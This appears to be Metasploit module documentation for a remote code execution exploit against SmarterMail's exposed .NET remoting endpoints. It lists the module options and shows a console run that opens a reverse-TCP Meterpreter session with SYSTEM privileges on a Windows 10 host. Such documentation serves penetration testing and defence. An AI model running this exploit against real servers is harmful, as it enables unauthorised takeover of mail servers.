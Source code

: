 ## Options

### TARGET (Required)

    0. Target 0 (Default) - x86/x64 Windows PowerShell Stager uses a PowerShell stager to execute code and open a Meterpreter session. Choose with `set TARGET 0`.
    1. Target 1 - x86/x64 Windows CmdStager uses a CmdStager with default `vbs` stager flavor to execute code and open a Meterpreter session. Choose with `set TARGET 1`.

### ENDPOINT (Required)

Choose one of three exposed .NET remoting endpoints, either `Servers`, `Spool` or `Mail`. The default is `Servers`, but any one of the three will do.

### RPORT (Required)

This is the port for the SmarterMail HTTP server, which is default on port 9998. Although this port is not required for exploitation, it is required for checking the vulnerability and version/build number of the SmarterMail software.

### TARGETURI (Required)

This is the base path of the SmarterMail HTTP server. The vulnerability check follows the redirect from base path `/` to the login page at `/interface/root#/login`, but this option is provided in case the login page is located at a different URI.

### TCP_PORT (Required)

This is the TCP port where the .NET remoting endpoints are located, and is required for sending serialized data and Meterpreter payloads. The default port is 17001.

## Scenarios

### SmarterMail Build 6970 on Windows 10 Pro

* Using default TARGET 0 - x86/x64 Windows PowerShell Stager:

```
msf6 > use exploit/windows/http/smartermail_rce 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf6 exploit(windows/http/smartermail_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6970.
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:55046) at 2023-07-06 05:39:43 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-50BU5J8
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
```